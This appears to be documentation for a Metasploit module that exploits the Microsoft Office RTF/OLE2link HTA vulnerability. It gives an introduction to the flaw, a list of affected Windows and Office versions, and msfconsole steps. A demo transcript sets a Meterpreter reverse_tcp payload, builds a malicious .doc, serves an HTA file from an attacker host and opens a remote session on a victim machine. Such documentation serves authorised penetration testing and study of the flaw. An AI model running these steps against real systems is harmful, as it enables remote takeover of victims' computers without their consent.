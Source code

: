## Introduction

Microsoft Office is an office suite of applications, servers, and services developed by Microsoft. Microsoft Office contains Microsoft Word, Microsoft Excel, Microsoft PowerPoint and so on. They can support OLE data integration and Virtusl Basic for Application scripting langauage. 

FireEye detected malicious Microsoft Office RTF documents that leverage a previously undisclosed vulnerability. This vulnerability allows a malicious actor to execute a Visual Basic script when the user opens a document containing an embedded exploit. FireEye has observed several Office documents exploiting the vulnerability that download and execute malware payloads from different well-known malware families.

The attack involves a threat actor emailing a Microsoft Word document to a targeted user with an embedded OLE2link object. When the user opens the document, winword.exe issues a HTTP request to a remote server to retrieve a malicious .hta file, which appears as a fake RTF file. The Microsoft HTA application loads and executes the malicious script. In both observed documents the malicious script terminated the winword.exe process, downloaded additional payload(s), and loaded a decoy document for the user to see. The original winword.exe process is terminated in order to hide a user prompt generated by the OLE2link.


## Vulnerable Applications


- Windows Vista Service Pack 2
- Windows Vista x64 Edition Service Pack 2
- Windows 7 for 32-bit Systems Service Pack 1
- Windows 7 for x64-based Systems Service Pack 1
- Windows Server 2008 for 32-bit Systems Service Pack 2
- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2
- Windows Server 2008 for Itanium-Based Systems Service Pack 2
- Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2013 Service Pack 1 (32-bit editions)
- Microsoft Office 2013 Service Pack 1 (64-bit editions)
- Microsoft Office 2010 Service Pack 2 (32-bit editions)
- Microsoft Office 2010 Service Pack 2 (64-bit editions)
- Microsoft Office 2016 (32-bit edition)
- Microsoft Office 2016 (64-bit edition)


## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/fileformat/office_word_hta```
3. Do: ```set payload [PAYLOAD NAME]```
3. Do: ```exploit```

## Demo

```
msf > use exploit/windows/fileformat/office_word_hta 
msf exploit(office_word_hta) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(office_word_hta) > set lhost 192.168.146.1
lhost => 192.168.146.1
msf exploit(office_word_hta) > set srvhost 192.168.146.1
srvhost => 192.168.146.1
msf exploit(office_word_hta) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.1:4444 
[+] msf.doc stored at /Users/wchen/.msf4/local/msf.doc
[*] Using URL: http://192.168.146.1:8080/default.hta
[*] Server started.
```

After you have the malicious doc file and servers ready, copy the doc file onto the victim machine,
and open it with Microsoft Office Word. You should receive a session:

```
[*] Sending stage (957487 bytes) to 192.168.146.145
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2017-04-24 16:00:49 -0500
```

